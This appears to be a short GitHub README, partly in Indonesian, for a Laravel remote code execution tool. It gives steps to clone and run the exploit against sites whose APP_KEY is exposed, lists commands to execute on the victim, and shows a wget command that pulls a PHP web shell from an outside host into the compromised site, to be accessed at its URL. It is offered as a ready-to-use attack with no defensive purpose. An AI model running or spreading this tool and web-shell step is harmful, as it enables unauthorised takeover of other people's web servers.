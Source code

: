 ### Laravel_rce
Laravel Remote Code Execution CLI
```
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell

Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)

Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
